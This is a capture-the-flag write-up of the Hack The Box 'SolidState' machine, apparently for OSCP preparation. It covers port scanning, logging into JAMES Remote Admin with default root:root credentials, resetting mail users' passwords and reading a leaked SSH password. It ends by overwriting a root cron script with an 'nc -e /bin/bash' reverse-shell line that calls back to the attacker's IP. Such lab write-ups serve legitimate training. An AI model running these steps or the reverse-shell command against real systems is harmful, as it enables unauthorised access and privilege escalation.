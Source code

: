 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: SolidState
tags: []
---
```

**Start 08:06 16-03-2025**

---
```
Scope:
10.10.10.51
```
# Recon

## Nmap

```bash
sudo nmap solid -p- -sC -sV -sT -T5 -vvvv --min-rate 5000 --reason

PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        syn-ack JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello solid (10.10.16.3 [10.10.16.3])
80/tcp   open  http        syn-ack Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp  open  pop3        syn-ack JAMES pop3d 2.3.2
119/tcp  open  nntp        syn-ack JAMES nntpd (posting ok)
4555/tcp open  james-admin syn-ack JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I also tried `161` UDP for good measure:

```bash
sudo nmap solid -p161 -sC -sV -sU -T5 -vvvv --min-rate 5000 --reason

Host is up, received echo-reply ttl 63 (0.086s latency).
Scanned at 2025-03-16 08:09:29 CET for 1s

PORT    STATE  SERVICE REASON              VERSION
161/udp closed snmp    port-unreach ttl 63
```

Right away I notice the **JAMES Remote Admin 2.3.2** service which I look up:

![](../../../assets/cd2ed9c23fe48b6f96e9d6ec9c89d344.png)

Good to know! Let's enumerate the rest first.

## 25/TCP - SMTP

![](../../../assets/c8c0656e20de7f729e77d645b0f24b7c.png)

Relay attack isn't possible.

![](../../../assets/21d2ed18c083c71211c097c709f2a193.png)

After some minutes of scanning I didn't find any names, moving on.

## 80/TCP - HTTP

![](../../../assets/5d7bd19fdc3feafb1cc75f415e177d34.png)

This was about the most useful I could find in a quick skim. Let's run `feroxbuster` and enumerate the web server.

![](../../../assets/4fc90b66649e056def000402140e42a8.png)

![](../../../assets/224c7ae6d4e6809ff9e740737fbf5e20.png)

Just some static assets, moving on.

## 110/TCP - POP3

We don't have any user info so we can't do anything here *yet*.

## 119/TCP - NNTP

Unknown what this port does atm, but I think it's linked to the next port.

## 4555/TCP - James-Admin

The PoC we previously found in [[#Nmap]] gave us some interesting info:

![](../../../assets/8e64067dc641f62ec75369613f1be240.png)

It appears the default creds are `root:root`, let's try it out:

![](../../../assets/338d251d75c2633e0376c0bf143246fd.png)

Well it appears someone didn't change the default creds, good for us.

![](../../../assets/090d0be2b814258262f700f3f80e906b.png)

I went ahead and added these to a user list, in case I want to spray later on:

![](../../../assets/120474d0457f79823187d1bbb42fafa2.png)

It seemed to be sort of a dead end though:

![](../../../assets/8245a6d2069885fff75f0e156223b5e1.png)

Let's instead download over the PoC and run that in order to get RCE.

### PoC

Unfortunately it wouldn't fire:

![](../../../assets/c96a8bb3476a26892baca8292b55cf1a.png)

However when we check the service via `nc` we now see the following:

![](../../../assets/f31bdd28c298540ecc6b378628c0efe6.png)

This means the exploit tried to add a new user.

>[!note]
>I also tried the older version but that didnt work either for RCE.

What we can do instead is just change passwords of the users since we're an admin account.

![](../../../assets/1936d218e25bb1fc1aacf7136c8bf63e.png)

![](../../../assets/0fef200fbfd78332c223e4f8c10edfca.png)

![](../../../assets/c96618fb3afc3d3b06da81ee76bd7bd5.png)

Awesome, we were able to find the creds.

```
mindy
P@55W0rd1!2@
```

# Foothold

Upon login we notice that the previously set up exploit now fires:

![](../../../assets/ac8dd241ecb3c975a249c201eee6c69f.png)

Not to worry, couple of `enter` further we are down to the normal SSH shell.


## user.txt

![](../../../assets/4b5a8c77d652a8f535f985c1b747f796.png)

Due to the presence of the `.rhosts` file it appears that the server is running `r-services`, however we can't view the file since it is owned by *root*.

## Enumeration

I tried to enumerate the system but it wouldn't give:

![](../../../assets/b2020d7500c48a5bfdd6d208c44b2558.png)

Let's try another approach, since we're in this jail I remembered that just now the script would indeed launch upon making the `ssh` connection. Meaning that the reverse shell HIGHLY LIKELY will execute if we retry it with a listener.

![](../../../assets/9b33dfae73f65f0a57eb5e8c0d42fcc6.png)

![](../../../assets/c5b7b0d477d08a93ccd6f86c553776e9.png)

![](../../../assets/ad0728186e7a32ffa3145a054293988c.png)

Just as imagined, we indeed receive a reverse shell, let's see if we can do some more commands with this one.

![](../../../assets/79281c4d0f78cc9ffa0da83fa153ab9c.png)

It appears that this shell is way more interactive, let's continue our approach.

I downloaded over `pspy32`:

![](../../../assets/1c757c927649a2f2f5da156687ed0cf0.png)

![](../../../assets/74a700bd0c0212995a6ee6e334fcbedd.png)

I let it run for a bit and checked back.

After a few minutes I noticed that *root* had a script running:

![](../../../assets/9327afd3ac79b854707d6efdff91429d.png)

![](../../../assets/681955e091c2e3a70023c1ec315612ff.png)

I bet we can change this up in order to get ourselves a root shell.

![](../../../assets/3aa901afdf46c7ead1b94aea2699f46d.png)

Sure can! Let's go ahead and change it up.

# Privilege Escalation

```bash
echo "
#!/usr/bin/env python
import os
import sys
os.system('/bin/nc -e /bin/bash 10.10.16.3 81')
" > /opt/tmp.py
```

After a few minutes of waiting:

![](../../../assets/1bf9960f9ea0b506bbb795ca83336357.png)

Hell yeah.

## root.txt

![](../../../assets/162609650dbffb2e581c33099260242a.png)


![](../../../assets/fefff3c4abb9e78fdeff03f92d34ca61.png)

---

**Finished 09:39 16-03-2025**

[^Links]: [[Hack The Box]] [[OSCP Prep]]

#pop3 #james-admin #pspy 
